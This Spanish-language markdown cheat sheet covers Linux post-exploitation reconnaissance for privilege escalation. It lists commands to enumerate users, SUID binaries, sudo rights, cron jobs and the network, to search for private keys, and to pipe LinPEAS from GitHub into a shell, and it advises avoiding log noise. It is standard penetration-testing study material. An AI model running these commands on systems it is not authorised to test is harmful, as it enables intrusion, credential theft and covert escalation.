

# 🕵️‍♂️ Reconocimiento Post-Explotación: Comandos Esenciales para Escalada de Privilegios

> [!info] Objetivo
> Una vez que obtuviste acceso inicial a un sistema (por ejemplo, una shell como usuario no privilegiado), el **reconocimiento post-explotación** es clave para entender el entorno, identificar vectores de escalada de privilegios y planificar los siguientes pasos.

---

## 📋 Tabla de Contenidos
- [1. Información de Usuario y Grupos](#1-información-de-usuario-y-grupos)
- [2. Información del Sistema y Kernel](#2-información-del-sistema-y-kernel)
- [3. Servicios y Procesos](#3-servicios-y-procesos)
- [4. Permisos y Archivos Interesantes](#4-permisos-y-archivos-interesantes)
- [5. Sudo y SUID/SGID](#5-sudo-y-suidsgid)
- [6. Red y Conectividad](#6-red-y-conectividad)
- [7. Herramientas Automatizadas](#7-herramientas-automatizadas)
- [8. Tips y Buenas Prácticas](#8-tips-y-buenas-prácticas)

---

## 1. Información de Usuario y Grupos

```bash
# Ver usuario actual y grupos
whoami
id
groups

# Ver todos los usuarios del sistema
cat /etc/passwd

# Ver usuarios con shell válido
grep -vE 'nologin|false' /etc/passwd

# Ver usuarios con UID 0 (root)
awk -F: '($3 == "0") {print}' /etc/passwd
```

> [!tip] ¿Por qué es útil?
> Saber tu usuario y grupos te permite identificar posibles permisos elevados (ej: docker, wheel, adm, lxd).

---

## 2. Información del Sistema y Kernel

```bash
# Versión del sistema operativo
cat /etc/os-release
lsb_release -a 2>/dev/null

# Versión del kernel
uname -a
cat /proc/version

# Arquitectura
arch
getconf LONG_BIT
```

> [!example] ¿Por qué importa?
> La versión del kernel y del SO te permite buscar exploits locales específicos (ej: Dirty COW, exploits de kernel antiguos).

---

## 3. Servicios y Procesos

```bash
# Ver procesos en ejecución
ps aux
ps -ef

# Ver servicios activos (systemd)
systemctl list-units --type=service --state=active

# Ver puertos abiertos y procesos asociados
netstat -tulpn 2>/dev/null
ss -tulpn 2>/dev/null

# Ver tareas programadas (cron)
crontab -l
ls -la /etc/cron*
cat /etc/crontab
```

> [!info] ¿Por qué importa?
> Procesos y servicios pueden revelar credenciales, scripts mal configurados o tareas cron explotables.

---

## 4. Permisos y Archivos Interesantes

```bash
# Buscar archivos SUID/SGID
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# Buscar archivos y directorios con permisos de escritura global
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null

# Buscar archivos de configuración sensibles
find /etc -name "*.conf" -o -name "*.bak" -o -name "*.old" 2>/dev/null

# Buscar archivos de contraseñas y claves
find / -name "*.pem" -o -name "*.key" -o -name "id_rsa*" 2>/dev/null
```

> [!warning] ¡Cuidado!
> Archivos SUID/SGID y archivos de configuración mal protegidos son vectores clásicos de escalada.

---

## 5. Sudo y SUID/SGID

```bash
# Ver comandos sudo permitidos para el usuario actual
sudo -l

# Buscar binarios SUID interesantes
find / -perm -4000 -type f 2>/dev/null | grep -E 'bash|sh|python|perl|find|vim|nmap|cp|tar|less|more|nano|vi'

# Buscar binarios con capabilities
getcap -r / 2>/dev/null
```

> [!example] ¿Por qué importa?
> Sudoers mal configurados o binarios SUID pueden permitir ejecución de comandos como root.

---

## 6. Red y Conectividad

```bash
# Ver interfaces de red y direcciones IP
ip a
ifconfig 2>/dev/null

# Ver rutas de red
ip route
route -n

# Ver conexiones activas
netstat -antp
ss -antp

# Ver hosts conocidos
cat /etc/hosts
arp -a
```

> [!tip] ¿Por qué importa?
> Saber la topología de red ayuda a planificar movimiento lateral o exfiltración.

---

## 7. Herramientas Automatizadas

> [!info] Para reconocimiento y escalada más rápida, usá scripts como:

- **LinPEAS**  
  ```bash
  curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
  ```
- **LSE (Linux Smart Enumeration)**
  ```bash
  wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
  chmod +x lse.sh
  ./lse.sh
  ```
- **Linux Exploit Suggester**
  ```bash
  wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
  chmod +x linux-exploit-suggester.sh
  ./linux-exploit-suggester.sh
  ```

---

## 8. Tips y Buenas Prácticas

> [!tip] Consejos para un reconocimiento efectivo:
> - **Documentá todo**: Guardá la salida de los comandos para análisis posterior.
> - **Priorizá la discreción**: Usá comandos que no generen mucho ruido en logs.
> - **Buscá vectores clásicos**: Sudoers, SUID, cronjobs, grupos especiales (docker, lxd, adm, wheel).
> - **Correlacioná información**: Relacioná usuarios, servicios y archivos para encontrar rutas de escalada.
> - **Automatizá, pero verificá manualmente**: Los scripts ayudan, pero siempre revisá los hallazgos críticos.

---

## 📊 Resumen Visual: Flujo de Reconocimiento Post-Explotación



---

> [!success] ¡Con estos comandos y técnicas, tendrás una base sólida para avanzar hacia la escalada de privilegios y el control total del sistema comprometido!